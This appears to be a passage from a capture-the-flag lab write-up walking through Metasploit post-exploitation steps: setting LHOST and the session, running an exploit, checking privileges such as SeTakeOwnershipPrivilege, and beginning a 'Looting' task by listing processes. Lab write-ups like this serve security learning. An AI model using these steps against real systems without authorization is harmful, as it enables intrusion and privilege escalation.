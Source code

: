 <div align="center">
<img src="https://github.com/user-attachments/assets/a9d3c6da-4e91-4d40-9814-4e9723666964" height=""></img>
</div>

### We need to change the LHOST and Set the Sessions
* #### Let set Lhost 
```
set LHOST 10.17.120.99
```
* ### Set session
```
set session 1
```

<div align="center">
<img src="https://github.com/user-attachments/assets/090bcc50-7b3c-4d20-bca4-c5e0822fca4b" height=""></img>
</div>

* ### let run this exploit
```
run
```
### The exploit ran successfully.

<div align="center">
<img src="https://github.com/user-attachments/assets/e1754257-de53-47fe-a2ac-b47b155a3f02" height=""></img>
</div>

### Let check permission listed allows us to take ownership of files?
```
getprivs
```

<div align="center">
<img src="https://github.com/user-attachments/assets/c8f24c11-58d3-4e74-9ab9-80f9a4cb6c32" height=""></img>
</div>

### SeTakeOwnershipPrivilege allow us to take ownership.

## Task 5. Looting

### Let list the process uisng command:
```
ps
```

<div align="center">
<img src="https://github.com/user-attachments/assets/d3cad140-e1bf-4a16-b8eb-d61dec68df4c" height=""></img>
</div>
